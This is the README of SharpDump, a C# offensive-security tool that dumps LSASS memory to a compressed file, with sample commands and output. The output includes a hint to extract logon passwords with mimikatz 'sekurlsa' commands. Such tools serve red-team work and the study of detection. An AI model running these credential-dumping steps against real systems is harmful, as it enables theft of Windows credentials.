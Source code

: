 # SharpDump

----

SharpDump is a C# port of [PowerSploit's Out-Minidump.ps1](https/github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) functionality. The [MiniDumpWriteDump](https/docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump for the process ID specified (LSASS by default) to C:\Windows\Temp\debug<PID>.out, GZipStream is used to compress the dump to C:\Windows\Temp\debug<PD>.bin (.gz format), and the original minidump file is deleted.

[@harmj0y](https/twitter.com/harmj0y) is the primary author of this port.

SharpDump is licensed under the BSD 3-Clause license.

## Usage

Dump LSASS:

 C:\Temp>SharpDump.exe

 [*] Dumping lsass (80 to C:\WINDOWS\Temp\debug808.out
 [+] Dump successful!

 [*] Compressing C:\WINDOWS\Temp\debug808.out to C:\WINDOWS\Temp\debug808.bin gzip file
 [*] Deleting C:\WINDOWS\Temp\debug808.out

 [+] Dumping completed. Rename file to "debug808.gz" to decompress.

 [*] Operating System : Windows 10 Enterprise N
 [*] Architecture : AMD64
 [*] Use "sekurlsa::minidump debug.out" "sekurlsa::logonPasswords full" on the same OS/arch


Dump a specific process ID:

 C:\Temp>SharpDump.exe 8700

 [*] Dumping notepad++ (8700) to C:\WINDOWS\Temp\debug8700.out
 [+] Dump successful!

 [*] Compressing C:\WINDOWS\Temp\debug8700.out to C:\WINDOWS\Temp\debug8700.bin gzip file
 [*] Deleting C:\WINDOWS\Temp\debug8700.out

 [+] Dumping completed. Rename file to "debug8700.gz" to decompress.

## Compile Instructions

We are not planning on releasing binaries for SharpDump, so you will have to compile yourself

SharpDump has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https/go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.

